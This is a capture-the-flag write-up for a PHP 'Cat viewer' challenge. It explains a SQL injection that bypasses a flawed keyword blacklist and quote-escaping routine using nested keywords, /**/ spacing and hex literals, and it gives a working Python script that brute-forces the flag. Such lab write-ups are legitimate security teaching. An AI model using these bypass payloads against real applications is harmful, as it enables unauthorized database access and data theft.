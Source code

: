# Cat viewer

## Overview
The intended solution involves exploiting a SQL Injection vulnerability in the image ID parameter and using the application as an oracle to reconstruct the flag. The `image_id` is directly embedded into the SQL query without prepared statements.

A manual sanitization is performed, but it’s flawed:

```php
$image_id = $_POST['id'];
$image_id = str_replace("'", "\\'", $image_id);
$image_id = str_replace('"', '\\"', $image_id);
$image_id = str_replace(" ", "", $image_id);

$banned_keywords = ['UNION', 'SELECT', 'FROM', 'WHERE', 'AND', 'OR', 'INSERT', 'UPDATE', 'DELETE', 'DROP', 'TABLE', 'DATABASE', 'SCHEMA', 'COLUMN', 'ALTER', 'CREATE', 'INDEX', 'TRIGGER', 'VIEW', 'SLEEP', 'BENCHMARK', 'LOAD_FILE'];

foreach ($banned_keywords as $keyword) {
    $image_id = str_ireplace($keyword, '', $image_id);
}

$sql = "SELECT url_image FROM images WHERE id_image = '" . $image_id . "' LIMIT 1";
```

## Exploitation Strategy
This sanitization can be bypassed:

- **String termination via double escaping**: We can terminate the original string by injecting a backslash followed by a single quote: ```\'``` (backslash + single quote). After the server-side replacement, it becomes ```\\'``` (double backslash + single quote), where the first backslash escapes the second one, and the single quote is treated as the actual end of the string literal.

- **Replace spaces with /\*\*/**: Since every space is removed, we can replace it with a MySQL comment /**/.

- **Weak keyword filtering**: The blacklist removes exact keyword matches without checking for partial patterns. For instance, injecting something like UNUNIONION will have the substring UNION stripped out, and what's left will effectively reconstruct a valid UNION.

- **Hex encoding**: To return custom values from the query, we can inject hexadecimal string literals after SELECT. For example: ```SELECT 0x666C61677B``` is equivalent to: ```SELECT 'flag{'```

The full string to inject is: ``` \'/**/UNUNIONION/**/SELSELECTECT/**/0x666C61677B#``` which is equivalent to: ``` \' UNION SELECT 'flag{'#```. From here, we can bruteforce char by char and when the site responds with `You can't steal my flag brody :)`, we've found the correct character.

## Exploit
```py
import requests
import string

url = "http://127.0.0.1:6004"
flag = "flag{"

while not flag.endswith("}"):
    for char in string.printable[:-6]:
        flag_guess = (flag + char).encode().hex()

        data = {"id": f"\\'/**/UNUNIONION/**/SELSELECTECT/**/0x{flag_guess}#"}

        resp = requests.post(url, data=data).text
        if "flag" in resp:
            flag += char
            print(flag)
            break
```